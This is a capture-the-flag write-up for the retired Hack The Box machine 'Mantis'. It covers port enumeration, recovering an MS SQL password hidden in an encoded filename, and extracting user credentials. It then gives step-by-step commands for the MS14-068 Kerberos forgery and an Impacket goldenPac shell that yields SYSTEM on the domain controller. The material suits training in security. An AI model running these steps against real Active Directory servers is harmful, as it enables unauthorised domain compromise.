



# Mantis

This is the write-up for the box Mantis that got retired at the 24th February 2018.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.52    mantis.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/mantis.nmap 10.10.10.52
```

```markdown
PORT      STATE SERVICE VERSION
53/tcp    open  domain       Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15CD4)
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2020-02-08 18:54:54Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2008 R2 Standard 7601 Service Pack 1 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s     Microsoft SQL Server 2014 12.00.2000.00; RTM
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-02-08T18:24:10
|_Not valid after:  2050-02-08T18:24:10
|_ssl-date: 2020-02-08T18:56:00+00:00; +52s from scanner time.
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
8080/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Tossed Salad - Blog
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc        Microsoft Windows RPC
49167/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: MANTIS; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

Full TCP port scan:
```markdown
nmap -p- -o nmap/allports.nmap 10.10.10.52
```

Some more open ports:
```markdown
PORT      STATE SERVICE
1337/tcp  open  waste
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49178/tcp open  unknown
49184/tcp open  unknown
50255/tcp open  unknown
```

Enumerating the services on those ports:
```markdown
nmap -p1337,5722,9389,47001,49178,49184,50255 -sC -sV  10.10.10.52
```

```markdown
PORT      STATE SERVICE  VERSION
1337/tcp  open  http     Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
5722/tcp  open  msrpc    Microsoft Windows RPC
9389/tcp  open  mc-nmf   .NET Message Framing
47001/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49178/tcp open  msrpc    Microsoft Windows RPC
49184/tcp open  msrpc    Microsoft Windows RPC
50255/tcp open  ms-sql-s Microsoft SQL Server 2014 12.00.2000
| ms-sql-ntlm-info:
|   Target_Name: HTB
|   NetBIOS_Domain_Name: HTB
|   NetBIOS_Computer_Name: MANTIS
|   DNS_Domain_Name: htb.local
|   DNS_Computer_Name: mantis.htb.local
|   DNS_Tree_Name: htb.local
|_  Product_Version: 6.1.7601
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-02-08T18:24:10
|_Not valid after:  2050-02-08T18:24:10
|_ssl-date: 2020-02-08T19:19:44+00:00; +52s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Based on the open ports, this box is an **Active Directory domain controller**.

## Checking HTTP (Port 8080)

On this web page there is some kind of blog which is developed with an open-source CMS called **Orchard** that is a _multi-tenant application framework and CMS for ASP.NET Core_.



The software looks updated and there is no hidden information.

## Checking HTTP (Port 1337)

On this web page, it displays the default IIS index page. So lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://10.10.10.52:1337 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the path _/secure_notes_ on which there are two files:
- web.config
  - Returns HTTP code _404 Not Found_

- dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
  - With this content:
```markdown
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

The filename of the text file seems odd, so lets **Base64 decode** it:
```markdown
echo -n NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d

# Output
6d2424716c5f53405f504073735730726421
```

As this string is 36 characters long and there is not a known hash type with this length, this string has to be something else.
The characters are mostly numbers and the letters _c, d, f_ so assuming this could be a hexadecimal value:
```markdown
echo -n 6d2424716c5f53405f504073735730726421 | xxd -ps -r

# Output
m$$ql_S@\_P@ssW0rd!
```

This looks like the password for the MS SQL service.

## Checking MS SQL (Port 1433)

As the notes from before said, the user for MS SQL that was created is called _admin_.
To authenticate to the SQL service I will use the GUI tool **dbeaver**.



When searching for _"User"_ it finds a user database with usernames and passwords:



- Username:james@htb.local
  - Password: J@m3s_P@ssW0rd!

- Username: admin
  - Password: AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==
  - Salt: UBwWF1CQCsaGc/P7jIR/kg==
  - HashAlgorithm: PBKDF2

Lets use the clear-text credentials to authenticate to the server.

## Kerberos Forging Attack

The vulnerability to exploit is described in the [Microsoft Security Bulletin MS14-068](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-068).

There are some requirements to do before going on.
- Install the following packages:
```markdown
apt install krb5-user cifs-utils rdate
```

- Edit the _/etc/hosts_ file:
```markdown
10.10.10.52   mantis mantis.htb htb.local mantis.htb.local
```

- Edit the _/etc/resolv.conf_ file:
```markdown
nameserver    10.10.10.52
```

- Edit the _/etc/krb5.conf_ file:
```markdown
[libdefaults]
    default_realm = HTB.LOCAL

[realms]
    LAB.LOCAL = {
        kdc = mantis.htb.local:88
        admin_server = mantis.htb.local
        default_domain = HTB.LOCAL
    }

[domain_realm]
    .domain.internal = HTB.LOCAL
    domain.internal = HTB.LOCAL
```

- Configure the date:
```markdown
rdate -n mantis.htb.local
```

- Generate Kerberos Ticket for domain user:
```markdown
kinit james

# List tickets
klist

# Output
Valid starting       Expires              Service principal
02/09/2020 18:23:59  02/10/2020 04:23:59  krbtgt/HTB.LOCAL@HTB.LOCAL
        renew until 02/10/2020 18:23:53
```

We are authenticated to the domain but when trying to connect to the server via **SMB**, it will still deny access because the user has not the proper authority to access the content:
```markdown
smbclient -W HTB.LOCAL //MANTIS/c$ -k

# Output
tree connect failed: NT_STATUS_ACCESS_DENIED
```

- Get the unique identifier for the user:
```markdown
rpcclient -U james MANTIS

rpcclient $> lookupnames james
james S-1-5-21-4220043660-4019079961-2895681657-1103 (User: 1)
```

Now we run the [MS14-068 exploit script](https://github.com/mubix/pykek):
```markdown
python ms14-068.py -u james@HTB.LOCAL -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d MANTIS
```

The `klist` command shows now another ticket that we possess and the script created the file _TGT_james@HTB.LOCAL.ccache_ that has to be moved to the directory _/tmp/krb5cc_0_.
```markdown
mv TGT_james@HTB.LOCAL.ccache /tmp/krb5cc_0
```

It is possible to connect to the domain via **SMB** and we got the permission to view all files.
```markdown
smbclient -W HTB.LOCAL //MANTIS/c$ -k
```

### Starting a shell

Lets start a shell on the box with the script **goldenPac** from the **Impacket Framework**:
```markdown
python3 /usr/share/doc/python3-impacket/examples/goldenPac.py HTB.LOCAL/james@mantis
```

We are logged in as _NT Authority\SYSTEM_ on the box!
